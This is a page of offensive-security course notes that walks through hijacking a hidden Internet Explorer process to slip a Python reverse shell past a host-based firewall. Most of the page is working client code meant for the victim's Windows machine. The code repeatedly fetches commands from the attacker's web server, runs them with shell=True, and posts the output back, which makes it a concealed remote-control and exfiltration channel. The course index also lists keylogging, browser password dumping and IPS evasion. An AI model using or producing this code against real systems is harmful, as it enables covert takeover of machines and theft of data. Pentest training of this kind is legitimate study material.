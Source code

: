 ```yaml
---
title: Hickjack the Internet Explorer process to bypass an host-based firewall
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - bypassing techniques
  - host based firewall
---
```


# Hickjack the Internet Explorer process to bypass an host-based firewall

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


For our script to bypass a host-based firewall (based on an ACL), we will hickjack the Internet Explorer process to conceal our traffick and bypass it.

## Client side

Make sure that the victim machine (a windows 10) has installed these two python libraries: pypiwin32 and pywin32.

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= visible)

# Paramaeters for POST
dURL = "http://192.168.0.152"  
Flags = 0
TargetFrame = 0


while True:
    ie.Navigate("http://192.168.0.152") # Navigate to our kali web server (the attacker machine) to grab the hacker commands
    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML 
    command = command.encode() # encode the command
    if 'terminate' in command.decode():
        ie.Quit() # quit the IE and end up the process
        break
    else:
        CMD = subprocess.Popen(command.decode(), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        Data = CMD.stdout.read()
        PostData = memoryview( Data ) # in order to submit or post data using COM technique , it requires to  buffer the data first using memoryview
        ie.Navigate(dURL, Flags, TargetFrame, PostData) # we post the comamnd execution result along with the post parameters which we defined eariler..

    sleep(3)

```